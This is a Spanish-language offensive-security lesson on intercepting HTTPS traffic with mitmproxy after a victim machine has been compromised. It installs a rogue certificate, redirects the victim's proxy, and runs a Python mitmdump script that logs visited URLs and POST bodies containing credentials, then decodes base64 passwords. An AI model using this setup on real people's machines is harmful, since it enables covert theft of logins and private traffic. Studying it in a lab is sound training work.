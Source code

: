 
----
- TAG: #Desarrollando #Creación #Sniffer #Tráfico #HTTPS #Mitmdump
----
En esta clase, vamos a sumergirnos en el mundo del espionaje de tráfico HTTPS creando un rastreador de consultas HTTPS (HTTPS Sniffer) con **mitmdump**. **Mitmdump** es una herramienta potente que actúa como un proxy, permitiéndonos interceptar, modificar y analizar el tráfico entre un cliente y un servidor, tanto para HTTP como para HTTPS.

El desafío con el tráfico HTTPS, que está cifrado para proteger la privacidad y seguridad de los datos, es que no se puede leer directamente. Aquí es donde entra en juego la instalación de un certificado en la máquina víctima. Al hacer esto, engañamos al dispositivo para que confíe en nuestro proxy, lo que nos permite descifrar y acceder al contenido del tráfico HTTPS.

Para esta clase, partimos de la base de que ya hemos vulnerado la máquina objetivo. Configuraremos mitmdump para que actúe como un proxy en nuestro equipo, redireccionando así el tráfico de la máquina víctima a través de nuestro sistema. Esto nos da un punto de observación privilegiado para examinar las comunicaciones seguras, una técnica de gran valor en el ámbito ofensivo de la ciberseguridad. Te guiaremos paso a paso en la configuración y el uso de esta herramienta, proporcionándote una habilidad clave para analizar y explotar las comunicaciones seguras en redes.

---
### Explicación General

En esta práctica, estamos simulando un ataque **MITM (Man-in-the-Middle)** empleando un **proxy**, lo que nos permitirá interceptar, visualizar y manipular el tráfico HTTPS que circula entre la víctima y el servidor web.

Usaremos la herramienta **mitmproxy** para realizar esta tarea, que nos ayudará a descifrar el tráfico HTTPS. Para que funcione, debemos instalar un certificado en la máquina víctima, lo que permitirá al proxy interceptar y desencriptar el tráfico.

### Instalación de mitmproxy

1. **Descargar mitmproxy** desde su página oficial:
   - Puedes dirigirte al repositorio en GitHub: [mitmproxy GitHub](https://github.com/mitmproxy/mitmproxy) 
   - O descargar los binarios directamente desde: [mitmproxy.org](https://mitmproxy.org/).

2. **Crear un directorio para mitmproxy**:
   ```bash
   mkdir mitmproxy
   mv /home/kali/Downloads/mitmproxy-10.4.2-linux-x86_64.tar.gz .
   ```

3. **Descomprimir el archivo** y eliminar el archivo `.tar.gz`:
   ```bash
   tar -xf mitmproxy-10.4.2-linux-x86_64.tar.gz
   rm mitmproxy-10.4.2-linux-x86_64.tar.gz
   ```

### Configuración en la Máquina Víctima

En la máquina Windows (víctima), configuraremos el navegador para que utilice nuestro proxy. Para hacerlo, sigue estos pasos:

1. **Instalar el certificado de mitmproxy**:
   - Ingresa a la URL `https://mitm.it` desde la máquina víctima. Esta página te permitirá descargar el certificado necesario para interceptar el tráfico HTTPS.
   - Elige la opción de descarga para Windows y sigue el proceso de instalación (clic en "Siguiente" hasta finalizar).
   
   Si ves el mensaje "if you can see this, traffic is not passing through mitmproxy", significa que el tráfico aún no pasa por el proxy. Esto es porque primero debemos configurar el proxy en la máquina víctima.

2. **Configurar el Proxy**:
   - En la configuración del proxy de la máquina víctima, deberás agregar la dirección IP de tu máquina Kali (atacante) y el puerto 8081, que será el puerto donde estará escuchando mitmproxy.

   En Windows, ve a:
   - **Configuración > Red e Internet > Proxy > Configuración manual del proxy** y agrega la IP de Kali y el puerto 8081.

### Ejecución de mitmproxy

Desde Kali Linux, ejecuta el siguiente comando para iniciar el servidor de mitmproxy:

```bash
./mitmweb
```

Esto levantará un servidor web en `http://127.0.0.1:8081/`, que actuará como intermediario en la comunicación entre la máquina víctima y el servidor al que quiera acceder.

Al navegar por cualquier página, mitmproxy comenzará a interceptar todo el tráfico. Si abres una página HTTPS, verás advertencias sobre seguridad en la máquina víctima, pero al instalar el certificado, estas advertencias desaparecerán.

---

### Interceptando HTTPS con un Script en Python

A continuación, vamos a crear un script en Python para interceptar tráfico HTTPS y filtrar posibles credenciales. Utilizaremos **mitmdump**, que es otra herramienta de mitmproxy que nos permite ejecutar scripts personalizados y procesar el tráfico.

#### Script `https_sniffer.py`

Este script imprimirá las URLs visitadas por la víctima y filtrará posibles credenciales enviadas en las solicitudes HTTP POST:

```python
#!/usr/bin/python3

from mitmproxy import http
from urllib.parse import urlparse

def request(packet):
    # Extraemos la URL completa desde el paquete interceptado
    url = packet.request.url
    parsed_url = urlparse(url)
    scheme = parsed_url.scheme  # Protocolo (http o https)
    domain = parsed_url.netloc  # Dominio
    path = parsed_url.path      # Ruta

    # Imprimimos la URL que está visitando la víctima
    print(f"[+] URL visitada por la víctima: {scheme}://{domain}{path}")

    # Filtramos posibles credenciales en la carga del paquete
    keywords = ["user", "pass", "username", "password"]
    if packet.request.method == "POST":
        data = packet.request.get_text()  # Extraemos el cuerpo del POST
        for keyword in keywords:
            if keyword in data:
                print(f"[+] Posibles credenciales encontradas: {data}")
                break
```

#### Ejecución del Script

Para que el script funcione con mitmdump, usa el siguiente comando:

```bash
mitmproxy/mitmdump -s https_sniffer.py --quiet
```

Este comando ejecutará mitmdump y vinculará el script `https_sniffer.py` para que procese todas las solicitudes interceptadas.

---

### Decodificación de Contraseñas

Si capturamos credenciales encriptadas en Base64, podemos decodificarlas con el siguiente comando en consola:

```bash
echo -n "dGVzMTIz" | base64 -d; echo
```

Este comando decodificará la cadena Base64, revelando las credenciales originales.

---

### Uso de mitmdump

La herramienta **mitmdump** permite adjuntar scripts personalizados y ofrece muchas opciones útiles para manipular y analizar tráfico. Si deseas ver todas las opciones disponibles, puedes ejecutar:

```bash
./mitmdump --help
```

---

### Resumen

1. **Configura mitmproxy** en la máquina Kali Linux y la máquina Windows (víctima) con el proxy y el certificado.
2. **Intercepta el tráfico** usando mitmdump y scripts en Python para analizar las solicitudes HTTP/HTTPS.
3. **Extrae credenciales** o cualquier otro dato sensible que pase por la red, ya que toda la comunicación estará siendo interceptada por tu proxy.
4. **Filtra y decodifica** la información capturada para obtener contraseñas y datos relevantes.

Este tipo de ataque **MITM** es bastante efectivo en entornos donde se puede comprometer el dispositivo víctima. ¡Recuerda que esto debe ser usado únicamente en entornos controlados o con fines educativos!